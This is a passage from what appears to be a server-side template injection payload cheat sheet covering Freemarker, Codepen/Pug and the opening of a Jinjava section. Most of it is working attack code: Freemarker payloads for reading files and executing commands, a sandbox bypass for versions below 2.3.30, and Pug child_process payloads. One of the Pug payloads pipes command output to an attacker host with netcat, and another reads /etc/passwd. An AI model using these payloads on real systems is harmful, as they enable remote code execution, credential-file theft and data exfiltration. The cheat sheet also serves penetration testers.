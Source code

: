 ### Freemarker - Read File

```js
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII
```

### Freemarker - Code Execution

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
#{"freemarker.template.utility.Execute"?new()("id")}
[="freemarker.template.utility.Execute"?new()("id")]
```

### Freemarker - Sandbox Bypass

:warning: only works on Freemarker versions below 2.3.30

```js
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

## Codepen

[Official website](https://codepen.io/)
> 

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

---

## Jinjava

[Official website](https://github.com/HubSpot/jinjava)
> Java-based template engine based on django template syntax, adapted to render jinja templates (at least the subset of jinja in use in HubSpot content).
